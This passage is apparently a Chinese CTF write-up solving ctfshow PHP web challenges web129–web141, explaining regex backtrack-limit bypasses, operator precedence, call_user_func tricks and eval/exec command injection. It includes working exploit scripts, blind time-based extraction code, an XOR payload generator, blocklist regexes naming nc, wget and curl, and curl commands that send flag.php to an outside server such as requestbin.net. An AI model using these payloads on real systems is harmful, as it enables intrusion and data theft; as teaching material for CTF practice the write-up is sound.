   - `php://filter` 允许你对资源进行过滤。在这个情况下，`php://filter/ctfshow/resource=flag.php` 被理解为请求流过滤器 `ctfshow` 来处理文件 `flag.php` 的内容。
   - `ctfshow` 在此处并不是直接影响文件读取的内容，而是作为过滤器存在。

2. **`stripos` 检查**：

   - 当 `stripos($f, 'ctfshow')` 被调用时，它会返回 `15`（`ctfshow` 在字符串中的起始索引），因为这个字符串是 `php://filter/ctfshow/resource=flag.php`。这意味着这个条件会为 `true`，后续代码将继续执行。
   - 这里的 `ctfshow` 实际上不会干扰读取 `flag.php`，反而它是被作为处理该文件的一部分。

3. **文件读取的过程**：

   - 当 PHP 处理这个请求时，它首先识别到 `php://filter`，然后应用 `ctfshow` 过滤器。接着，PHP 会读取 `flag.php` 文件的内容。
   - `ctfshow` 作为过滤器的作用是对输出进行操作，而不是改变读取的文件内容或路径。

   说白了就是**PHP对无法使用的filter过滤器只会抛出warning而不是error，还是能正常执行的**

## web130

```
very very very（省略25万个very）ctfshow
```

```php
if(isset($_POST['f'])){
    $f = $_POST['f'];
    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }
    echo $flag;
}
```

### .+?非贪婪模式(.*？)

- **非贪婪模式**：通过在量词后添加 `?`，使得匹配尽可能少的字符，直到找到第一个满足整个表达式的匹配。

- ### 常用的量词与非贪婪模式

  为了使用非贪婪模式，可以在以下量词后添加 `?`：

  - `*?`：匹配零个或多个字符（非贪婪）。
  - `+?`：匹配一个或多个字符（非贪婪）。
  - `??`：匹配零个或一个字符（非贪婪）。
  - `{n,m}?`：匹配至少 n 个字符，至多 m 个字符（非贪婪）。

- .+?”表示非贪婪匹配，即前面的字符至少出现一次

#### /s正则匹配

- 这个修饰符表示点号 `.` 可以匹配换行符。这意味着在多行文本中，`.` 也可以匹配换行符后的字符。

所以这个正则匹配的意思是，如果ctfshow前面有任意字符，则匹配成功

那我们直接传入ctfshow就可以了，只要前面没有字符的话就能同时满足两个if判断

还有别的方法，我们放在下道题进行深入讲解

## web131

```php
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];
    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }
    echo $flag;
}
```

这里的话一个是得满足ctfshow前面不能有字符，另一个是需要ctfshow前面有36D字符串，这种情况下只能用新的方法了

### 正则最大回溯

在正则匹配中往往有一定的限制，我们可以利用正则最大回溯来超过限制使得正则返回false

在php的扩展中提供了两个设置项

```php
1. pcre.backtrack_limit //最大回溯数
2. pcre.recursion_limit //最大嵌套数
```

PHP为了防止正则表达式的拒绝服务攻击（reDOS），给pcre设定了一个回溯次数上限pcre.backtrack_limit，默认的backtarck_limit是1000000(100万).

我们可以通过var_dump(ini_get('pcre.backtrack_limit'));的方式查看当前环境下的上限：结果返回为1000000

#### 非贪婪模式的详解

在非贪婪模式下， 在可配可不配的情况下，优先不匹配，先将匹配控制交给正则表达式的下一个匹配字符。当之后的匹配失败的时候再回溯，进行匹配

举个例子

```
匹配的字符串: aaab
正则匹配的字符: .*?b
```

匹配过程开始的时候, ".*?"首先取得匹配控制权, 因为是非贪婪模式, 所以优先不匹配, 将匹配控制交给下一个匹配字符"b", "b"在源字符串位置1匹配失败("a"), 于是回溯, 将匹配控制交回给".*?", 这个时候, ".*?"匹配一个字符"a", 并再次将控制权交给"b", 如此反复, 最终得到匹配结果, 这个过程中一共发生了3次回溯.

利用这个原理，我们可以想到默认的backtarck_limit是十万，所以只要我们让我们的回溯次数超过十万，就会导致匹配失败而退出

### 回溯上限绕过脚本

```php
import requests
 
url='http://7827dca0-b812-4948-bac9-0cd382fd656e.challenge.ctf.show/'#目标url
data={
    'f':'very'*250000+'36Dctfshow'
}
r=requests.post(url=url,data=data).text
print(r)
```

因为very是四个字符，每个字符都要回溯一次，所以为了达到100万次的上限制，只需要25万个very就行，达到100万次回溯后，后面的36D再进行3次回溯，此时已经超过了限制，就会使正则返回false达到绕过

## web132

怎么打开是一个网站


在源码中没发现什么信息，用dirsearch扫一下目录



发现了一个/robots.txt，应该是robots协议

还有一个admin，访问看看

```php
if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```

### mt_rand()函数

`mt_rand()` 是 PHP 中的一个随机数生成函数，用于生成伪随机整数。

函数语法:

```php
int mt_rand(int $min = 0, int $max = MT_RAND_MAX);
```

参数说明

- **`$min`**: （可选）生成的随机数的最小值，默认为 `0`。
- **`$max`**: （可选）生成的随机数的最大值，默认为 `MT_RAND_MAX`，通常是 `2147483647`（即 PHP 中 `mt_rand` 的最大返回值）。

返回值

- 返回一个介于 `$min` 和 `$max` 之间的伪随机整数（包括 `$min` 和 `$max`）。

所以这里会生成1-877之间的随机数

这里的三个条件通过逻辑运算符连接，不过我们应该先了解一下逻辑运算符的优先级

### 逻辑运算符优先级

1. **`!`**（逻辑非，取反）:
   - 这是唯一的单目运算符，优先级最高。
   - `!a` 表示如果 `a` 为 `false`，则结果为 `true`，反之亦然。
2. **`&&`**（逻辑与）:
   - 优先级高于 `||`。
   - 表达式 `a && b` 只有在 `a` 和 `b` 都为 `true` 时结果为 `true`。
3. **`||`**（逻辑或）:
   - 优先级低于 `&&`。
   - 表达式 `a || b` 只需 `a` 或 `b` 至少有一个为 `true`，结果即为 `true`。

这里可以看到，&&的优先级高于||，所以里面的语句可以分成

 if( [$code === mt_rand(1,0x36D) && $password === $flag] || $username ==="admin")

这样来看，如果前面两个条件有一个不满足，都会返回false，但在||语句中，只要有一个条件满足即可，所以只要让后面的username满足条件就可以通过if判断语句,第一个if语句满足了，第二个语句就相对容易的多了

payload:

```
Payload：?code=admin&password=1&username=admin
```

## web133

```php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

**`@` 符号**:

- 这是 PHP 的错误抑制运算符。使用 `@` 运算符可以抑制表达式中可能出现的任何错误或警告。

这道题限制了参数的字符串长度，还对参数进行了一些函数的过滤

这里可以注意到eval函数里面有一个substr函数，说明会截取这个$F参数的前六位作为php代码去执行，但是因为这里限制了很多函数，且还有长度限制，这时候我们有一个新思路，就是通过传递参数本身实现变量覆盖

### 传递参数本身实现变量覆盖

解题:

```none
先尝试：
/?F=`$F `;sleep 3	//注意$F后有空格，这样到分号刚好6个字符
这样传入的话可以得到eval(`$F `;)，而$F=`$F `;sleep 3
``反引号是shell_exec()函数的缩写，以命令行形式执行命令
这样会执行命令`$F `;也即shell_exec($F)==>shell_exec(`$F `;sleep 3)
我们就可以成功执行sleep 3了，因为是在shell里执行了，所以前面的表达式不管了，我们通过分号后的表达式来执行想要的命令
所以这是无回显的RCE题目
无回显我们可以用反弹shell 或者curl外带 或者盲注
这里的话反弹没有成功，但是可以外带。
```

所以这里就是实现了变量覆盖进行命令执行

然后我们讲一下用curl外带的方法

### curl 外带

"curl" 命令是一个在命令行下使用的工具，用于传输数据

curl的相关命令

```none
-F参数用来向服务器传输二进制文件，-X参数用来指定http代理
```

我们需要通过curl让目标服务器向我们的服务器发送我们想要的东西，这里的服务器我们可以用burp的服务器Collaborator服务器

payload:

```
?F=`$F`;+curl -X POST -F xx=@flag.php  服务器地址
```

对 payload 的一些解释：

-F 为带文件的形式发送 post 请求；

其中 xx 是上传文件的 name 值，我们可以自定义的，而 flag.php 就是上传的文件 ；

**相当于让服务器向 Collaborator 客户端发送 post 请求，内容是flag.php。**



也可以进行命令执行

```
?F=`$F`; curl 服务器地址/`ls`
```

命令的输出将被插入到 curl 命令的 URL 中 



```
?F=`$F`; curl 服务器地址/`cat flag.php|grep ctfshow`
```

因为 flag.php 内容是多行，所以结合 grep 找一下。整体来说，这个命令企图读取服务器上 `flag.php` 文件中包含 `ctfshow` 的行，然后将该行的内容作为 URL 的一部分发送到指定的外部服务器。



## web134

```php
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

如果通过 GET 或 POST 请求中设置了 key1 或 key2，脚本将停止执行并输出 "nonononono"。

@parse_str($_SERVER['QUERY_STRING']);---解析查询字符串并将变量提取到当前作用域中

`extract($_POST)` 是将 `$_POST` 超全局变量中的键值对解压缩为对应的变量和值。

payload:

```
?_POST[key1]=36d&_POST[key2]=36d
```

由于 extract($_POST)，这两个 POST 参数会被提取为局部变量 $key1 和 $key2；解析后，会将 $_POST['key1'] 和 $_POST['key2'] 赋值为 36d；这样就能使 $key1 和 $key2 都等于 36d，从而通过最后的条件检查。

传参后在源码中可以找到flag



## web135(绕过命令函数)

### #重定向，重命名，文件复制，ping函数

```php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

这里过滤了很多函数，当然curl外带也不行了

学习新姿势

我们可以看到这道题的目录是可写的，所以我们试一下新命令

```
## 重定向
?F=`$F `;nl flag.php>flag
- 将命令的输出重定向到 `1.txt` 文件中

- `nl` 是一个命令，用于对文件内容进行行编号。即将文件的每一行进行编号输出。

## 重命名
?F=`$F `;mv flag.php 1.txt 

## 文件复制
?F=`$F `;cp flag.php 1.txt

## ping
?F=`$F `;ping cat flag.php|awk 'NR==2'.服务器地址
#通过ping命令去带出数据，然后awk NR一排一排的获得数据
用 awk 命令选择第 2 行（flag 在多少行是需要不断尝试出来的）；
```

这里我用的cp命令，然后访问1.txt就可以看到flag了



非预期

或者也可以用符号进行绕过

```
\
'
"
```

姿势

```
cu\rl https://requestbin.net/r/d6dln1sn?q=`ca\t flag.php | gr\ep flag1 | bas\e64`
cu\rl https://requestbin.net/r/d6dln1sn?q=`ca\t flag.php | gr\ep flag2 | bas\e64`
```

## web136

### #考察exec函数以及使用tee命令写文件

```php
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

### exec($c)

在 PHP 中，`exec()` 函数用于执行外部程序。它可以将命令的输出捕获到一个数组变量中。

举个例子

```
$output = [];
$return_var = 0;
$c = "ls -la";  // 这是一个简单的命令例子
exec($c, $output, $return_var);

// $output 会包含命令的输出
// $return_var 会包含命令的返回状态码
```

- **参数**：
  - `$c`：要执行的命令。
  - `$output`：这是一个可选参数，用于捕获命令输出。
  - `$return_var`：这是一个可选参数，用于捕获命令的返回状态码。

其实我没怎么遇到过这个 exec 函数，尝试执行命令，发现页面是空白的


这时候我们就得想到关于exec的用法了，我们需要将结果重定向到某个文件，然后再访问对应的文件

因为>过滤，使用tee命令，可以变为另一个文件，类似>

payload：

?c=ls|tee 1 然后访问1发现只有一个index.php



?c=ls /|tee 1 访问1下载查看文件



 ?c=cat /f149_15_h3r3|tee 1 访问下载查看文件1(2)就可以拿到flag了

## web137

### #考察call_user_func()函数的使用

https://www.php.net/manual/zh/function.call-user-func.php

```php
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}
call_user_func($_POST['ctfshow']);
```

### call_user_func函数

call_user_func()用于调用用户定义的函数

基本用法：

```
$result = call_user_func('function_name', $arg1, $arg2, ...);
```

- **`function_name`**：这是你想要调用的函数的名称，可以是字符串形式的函数名，也可以是匿名函数或其他可调用的结构。
- **`$arg1, $arg2, ...`**：这是要传递给函数的参数，数量可变。

举个例子

```php
<?php
function barber($type)
{
    echo $type;
}
call_user_func('barber', 'wanth3f1ag');
echo "\n";
$a="wanth3f1ag";
call_user_func('barber',$a );
#输出结果
///wanth3f1ag
///wanth3f1ag
```

那这里的话我们可以看到ctfsow类里面有跟flag有关的方法，所以我们需要调用类里面的方法

#### 第一个方法:调用类里面的方法

```
payload:ctfshow=ctfshow::getFlag
```

双冒号可以不经过实例化调用类的方法

或者也可以使用数组的方法进行调用

#### 第二个方法：数组方式调用

举个例子

```php
<?php

class myclass {
    static function say_hello()
    {
        echo "Hello!\n";
    }
}

$classname = "myclass";
call_user_func(['myclass','say_hello']);
call_user_func(array($classname, 'say_hello'));
///Hello!
///Hello!
```

这里可以看到，当我们把classname设为myclass的时候，将其与say_hello放入数组中，此时这两个是键值对，call_user_func()会解析数组并进行静态方法的调用，这种数组的形式是 `[类名或对象, 方法名]`

```
payload:ctfshow[]=ctfshow&ctfshow[]=getFlag
```

传进去之后查看源代码发现也是有flag的

## web138

### #考查strripos()函数的使用和绕过

https://www.php.net/manual/zh/function.strripos.php

```php
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);
```

payload:

```
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```

其实这里的话就是用数组调用就可以了，但我们还是得学一下函数的哈

### strripos()函数

`strripos()` 是 PHP 中的一个字符串函数，用于查找字符串中一个子字符串最后一次出现的位置。与 `strrpos()` 类似，但 `strripos()` 是不区分大小写的

基础语法

```php
strripos(string $haystack, string $needle, int $offset = 0): int|false
```

### 参数

- **`$haystack`**：要搜索的字符串。

- **`$needle`**：要查找的子字符串。注意，如果 `$needle` 是一个空字符串，`strripos()` 会返回 `false`。

- **`$offset`**（可选）：搜索的起始位置。如果为 0 或正数，则从左到右搜索，跳过 `haystack` 的开头 `offset` 个字节。

  如果为负数，则从右向左执行搜索，跳过 `haystack` 的最后 `offset` 个字节并搜索首次出现的 `needle`。

而题目中if(strripos($_POST['ctfshow'], ":")>-1)因为字符串是从0开始，所以实际上就是把:给过滤掉了，我们尝试绕过:就行，所以用数组绕过

## web139

```php
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

又回到exec的题目了

我们参考136的payload用tee命令，但是发现下载失败，应该是设置了权限

后面搜寻了wp发现是用bash的if+sleep配合awk+cut进行盲打，直接摘脚本了

先配合ls跑目录

```python
import requests
import time
import string

str = string.ascii_letters + string.digits + "-" + "{" + "}" + "_" + "~"    # 构建一个包含所有字母和数字以及部分符号的字符串，符号可以自己加
result = ""          # 初始化一个空字符串，用于保存结果

#获取多少行
for i in range(1, 99):
    key = 0   #用于控制内层循环(j)的结束

    #不break的情况下，一行最多几个字符
    for j in range(1, 99):
        if key == 1:
            break
        for n in str:       #n就是一个一个的返回值
            #执行ls跑目录
            payload = "if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i, j, n)   #{n}是占位符
            #print(payload)
            url = "http://b43ed2e7-cdbe-47ec-937a-7288cc5c38a4.challenge.ctf.show/?c=" + payload
            try:
                requests.get(url, timeout=(2.5, 2.5))   #设置超时时间为 2.5 秒,包括连接超时和读取超时，超时就是之前sleep 3了。

            # 如果请求发生异常，表示条件满足，将当前字符 n 添加到结果字符串中，并结束当前内层循环
            except:
                result = result + n
                print(result)
                break
            if n == '~':    #str的最后一位，“~”不常出现，用作结尾
                key = 1
    # 在每次获取一个字符后，将一个空格添加到结果字符串中，用于分隔结果的不同位置
    result += " "

```


拿flag

```python
import requests
import time
import string

str = string.digits + string.ascii_lowercase + "-" + "_" + "~"# 题目过滤花括号，这里就不加了
result = ""
for j in range(1, 99):
    for n in str:
        #跑flag
        payload = "if [ `cat /f149_15_h3r3 |cut -c {0}` == {1} ];then sleep 3;fi".format(j, n)
        # print(payload)
        url = "http://b43ed2e7-cdbe-47ec-937a-7288cc5c38a4.challenge.ctf.show/?c=" + payload
        try:
            requests.get(url, timeout=(2.5, 2.5))
        except:
            result = result + n
            print(result)
            break
        if n=="~":
            result = result + "花括号"
#记得替换payload的flag文件名和url就行
```

## web140

### #函数嵌套使用+弱类型比较+intval函数绕过

```php
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}
```

f1 f2 只能含有小写字母和数字

对于intval函数前面有说过具体的用法和绕过方法，但是这里想要让if语句成立是比较困难的，所以我们应该看看如何能绕过里面的强比较去通过判断条件

通过表格松散比较可以看到0和字符串比较结果为真，所以我们可以让intval处理后的返回值为0，这时候if语句就能为真

intval会将非数字字符转换为0，也就是说 `intval('a')==0 intval('.')==0 intval('/')==0`

然后我们看eval语句里面，f1和f2是函数嵌套使用，所以我们只要eval语句输出的结果是非数字字符就行

所以这道题的payload是很多的

```
md5(phpinfo())
md5(sleep())
md5(md5())
current(localeconv)
sha1(getcwd())   
......
```

payload:

```
f1=usleep&f2=usleep
f1=sleep&f2=sleep
f1=md5&f2=phpinfo
f1=md5&f2=md5
f1=sha1&f2=getcwd
f1=intval&f2=getcwd
f1=getcwd&f2=getcwd
f1=exec&f2=exec
f1=system&f2=system
```

思路就是找到一个函数, 使它的返回值为空或者非数字字符, 这样intval 之后也会变成0

## web141

### #异或进行无数字字母rce+正则匹配/^\W+$/

```php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

#### preg_match('/^\W+$/', $v3)

- **`^`**: 匹配字符串的开头。
- 大写**`\W`**: 表示匹配任何非单词字符。在正则表达式中，小写`\w` 用于匹配字母、数字和下划线（即 `[a-zA-Z0-9_]`），而 大写`\W` 则是其相反，匹配任何非字母、非数字、非下划线的字符，如空格、标点符号等。
- **`+`**: 匹配前面的子模式一次或多次。因此，`\W+` 会匹配一个或多个连续的非单词字符。
- **`$`**: 匹配字符串的结尾。

`'/^\W+$/'` 的整体意思是：从字符串的开头到结尾都是由一个或多个非单词字符构成。

非单词字符（`\W`）包括：

- 空白字符：空格、制表符、换行符等
- 标点符号：如句号、逗号、感叹号、问号、引号等
- 其他符号：如 `@`、`#`、`$`、`%`、`&`、`*`、`(`、`)`、`-`、`+` 等

我们来做个测试

```
<?php
$a='???';
$b='abc';
if(preg_match('/^\W+$/',$a)){
	echo "1";
}
if(preg_match('/^\W+$/',$b)){
	echo '2';
}
//输出结果:1
```

然后可以看到有eval语句

所以这里的话属于是无字母构造payload进行rce了

之前我有学过无字母数字的rce分别有三种方式，一种是自增一种是取反一种是异或

我们来用异或进行构造payload，关于异或脚本的写法简单来说就是遍历字符表来异或，找到符合要求的记录下来，再输入想要的指令，在记录中遍历查找到 即可形成无数字字母的shell

这里我拿了师傅的一个异或的脚本，算是比较通用的，后面我再具体学习写脚本

#### 异或构造payload脚本

```python
import re
#异或无数字字母绕过
#取得可用字符串放入文件
def get_xor_words():
    preg='[a-zA-Z0-9]'
    result=''
    #遍历扩展ascii码表
    for i in range(256):
        for j in range(256):
            if not (re.match(preg,chr(i),re.I) or re.match(preg,chr(j),re.I)):
                k=i^j
                #k在可显示字符中
                if k>=32 and k<=126:
                    # 以URL编码方式存储
                    a = '%' + hex(i)[2:].zfill(2)
                    b = '%' + hex(j)[2:].zfill(2)
                    result += (chr(k) + ' ' + a + ' ' + b + '\n')
    f=open('xor_file.txt','w')
    f.write(result)
#通过输入的命令获取无数字字母命令
def get_order(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("xor_file.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
            if t[0] == i:
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
        #异或后存入
    output = "(\"" + s1 + "\"^\"" + s2 + "\")"
    return (output)

def main():
    get_xor_words()
    while True:
        s1 = input("\n[+] your function：")
        if s1 == "exit":
            break
